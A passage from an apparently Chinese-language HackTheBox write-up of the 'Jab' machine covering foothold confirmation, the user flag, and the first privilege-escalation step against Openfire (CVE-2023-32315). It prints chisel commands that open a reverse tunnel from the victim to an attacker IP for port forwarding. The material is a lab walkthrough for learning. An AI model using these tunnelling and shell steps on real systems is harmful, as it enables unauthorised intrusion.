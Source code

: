由于无法输出命令结果到终端，为了验证命令是否真的被执行，于是尝试ping自己并监听网卡，发现收到ping包——即命令可成功执行：
![HTB-Jab-ping](HTB-Jab-ping.png)


接下来就准备反弹shell，成功接收：
![HTB-Jab-foothold](HTB-Jab-foothold.png)




## flag: user

svc_openfire用户的桌面就有flag：
```powershell
PS C:\Users\svc_openfire\desktop> ls


    Directory: C:\Users\svc_openfire\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        3/24/2024   3:20 AM             34 user.txt                                                              


PS C:\Users\svc_openfire\desktop> cat user.txt
501 (...) d2e
```





## Privilege Escalation

### Internal Recon

在端口信息中发现开放了本地端口9090——即最开始我们谷歌搜到的`CVE-2023-32315`。原来是在这里用啊……

```
PS C:\Users\svc_openfire\Desktop> netstat -anop tcp |findstr LISTEN
 (...)
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3128
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3128
```

### PoC (CVE-2023-32315 like)

#### chisel配置端口转发

首先配置端口转发，本来想跟[之前一样用SilverC2](HTB-OnlyForYou.md#sliver-c2)或msf，正好在桌面看到前人留下的chisel（文件上传方法在此也就省略了，可参考[HTB-Authority](HTB-Authority.md#certify)），以前也没用过，那这次就试试chisel吧。  
其实看help没太懂怎么用，搜了下，还得是[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#port-forwarding)啊：
```
chisel server -p 12312 --reverse    #Server -- Attacker
./chisel.exe client 10.10.14.14:12312 R:9090:127.0.0.1:9090    #Client -- Victim
```
